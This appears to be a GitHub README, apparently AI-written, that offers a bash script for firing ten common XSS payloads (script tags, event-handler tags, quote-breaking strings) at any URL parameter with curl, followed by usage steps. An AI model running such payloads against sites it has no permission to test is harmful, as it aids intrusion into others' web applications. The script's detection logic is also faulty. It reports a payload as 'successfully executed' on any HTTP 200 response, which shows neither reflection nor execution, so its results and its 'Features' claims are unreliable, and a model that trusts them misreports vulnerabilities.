 # XSS-Testing-Script
Here’s a **bash script** to automate **Cross-Site Scripting (XSS) testing** on a target URL. This script uses **curl** for HTTP requests and tests various XSS payloads against the provided URL.

---

### **XSS Testing Script**

```bash
#!/bin/bash

# XSS Testing Script
# Usage: ./xss_test.sh <target_url> <parameter_name>
# Example: ./xss_test.sh "https://example.com/search" "q"

# Check for arguments
if [ "$#" -ne 2 ]; then
    echo "Usage: $0 <target_url> <parameter_name>"
    exit 1
fi

# Target URL and Parameter
TARGET_URL=$1
PARAM_NAME=$2

# XSS Payloads
PAYLOADS=(
    "<script>alert('XSS')</script>"
    "<img src=x onerror=alert('XSS')>"
    "<svg/onload=alert('XSS')>"
    "<iframe src=javascript:alert('XSS')></iframe>"
    "';alert('XSS');//"
    "\";alert('XSS');//"
    "<body onload=alert('XSS')>"
    "<marquee onstart=alert('XSS')>"
    "<input autofocus onfocus=alert('XSS')>"
    "<details open ontoggle=alert('XSS')>"
)

# Test each payload
echo "Testing for XSS vulnerabilities on $TARGET_URL..."
for PAYLOAD in "${PAYLOADS[@]}"; do
    echo "Testing payload: $PAYLOAD"
    
    # URL Encode the payload
    ENCODED_PAYLOAD=$(echo "$PAYLOAD" | jq -sRr @uri)

    # Send request
    RESPONSE=$(curl -s -o /dev/null -w "%{http_code}" "$TARGET_URL?$PARAM_NAME=$ENCODED_PAYLOAD")

    # Check response
    if [[ $RESPONSE -eq 200 ]]; then
        echo "Payload successfully executed: $PAYLOAD"
    else
        echo "No response or blocked: $PAYLOAD"
    fi
done

echo "XSS testing completed."
```

---

### **Steps to Use the Script**
1. Save the script as `xss_test.sh`.
2. Make the script executable:
   ```bash
   chmod +x xss_test.sh
   ```
3. Run the script with the target URL and parameter:
   ```bash
   ./xss_test.sh "https://example.com/search" "query"
   ```

---

### **Features of the Script**
1. **Payload Encoding**: Automatically encodes payloads to ensure proper injection.
2. **HTTP Status Code Check**: Verifies if the payload was processed (200 OK status).
3. **Customizable Payloads**: You can easily add more payloads to the `PAYLOADS` array.

---

Would you like to extend this script with features like logging, reporting, or integration with tools like **Burp Suite**?
